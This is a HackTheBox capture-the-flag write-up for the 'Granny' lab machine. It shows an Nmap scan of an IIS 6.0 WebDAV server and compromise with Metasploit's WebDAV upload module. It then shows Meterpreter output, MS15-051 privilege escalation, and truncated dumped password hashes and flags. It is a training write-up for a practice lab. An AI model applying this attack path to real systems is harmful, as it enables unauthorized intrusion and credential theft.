 [HackTheBox] Granny
===============
date: 04/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeups

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_granny/infocard.png)

This is a writeup for HTB VM [Granny](https://www.hackthebox.eu/home/machines/profile/14). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_granny/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Mon Nov  4 13:35:36 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/xml/_quick_tcp_nmap.xml 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up, received user-set (0.051s latency).
Scanned at 2019-11-04 13:35:37 PST for 21s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Mon, 04 Nov 2019 21:36:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  4 13:35:58 2019 -- 1 IP address (1 host up) scanned in 21.97 seconds
```

2\. We look for IIS 6.0 vulnerabilities and find multiple WebDAV related hits:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_granny/screenshot01.png)  

### Findings
#### Open Ports:
```
80/tcp  |  http  |  Microsoft IIS httpd 6.0
```

## Phase #2: Exploitation
1\. We decide to use the Metasploit `windows/iis/iis_webdav_upload_asp` exploit and it successully gives us a Meterpreter shell:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_granny/screenshot02.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_granny/screenshot03.png)  

## Phase #2.5: Post Exploitation
```
ntauth/network@GRANNY> id
NT AUTHORITY\NETWORK SERVICE
ntauth/network@GRANNY>  
ntauth/network@GRANNY> uname
Computer        : GRANNY
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
ntauth/network@GRANNY>  
ntauth/network@GRANNY> ifconfig
Ethernet adapter Local Area Connection:
 Connection-specific DNS Suffix  . :
 IP Address. . . . . . . . . . . . : 10.10.10.15
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/network@GRANNY>  
ntauth/network@GRANNY> users
Administrator
Lakis
```

## Phase #3: Privilege Escalation
1\. Since we have certain restrictions that stop us from running commands like `getuid`, we have to migrate to a different process. We find the PID for process `davcdata.exe` and migrate to it:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_granny/screenshot04.png)  

2\. We can now use the Metasploit `multi/recon/local_exploit_suggester` module to look for privesc options:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_granny/screenshot05.png)  

3\. We tried a few exploits from this list and eventually the `windows/local/ms15_051_client_copy_image` module worked and provided an elevated session:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_granny/screenshot06.png)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_granny/screenshot07.png)  

4\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
cat "C:\Documents and Settings\Lakis\Desktop\user.txt"
cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_granny/screenshot08.png)  

## Loot
### Hashes
```
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e.................
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f589................
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c...............
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b7.................
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f615.................
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6................
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e..................
```
### Flags
```
C:\Documents and Settings\Lakis\Desktop\user.txt: 700c5dc163014e22................
C:\Documents and Settings\Administrator\Desktop\root.txt: aa4beed1c05844..................
```

## References
* <https://www.hackthebox.eu/home/machines/profile/14>  
* <https://marcelowoloszyn.cl/hackthebox/hack-the-box-write-up-granny/>  
* <https://reboare.github.io/hackthebox/htb-granny.html>  
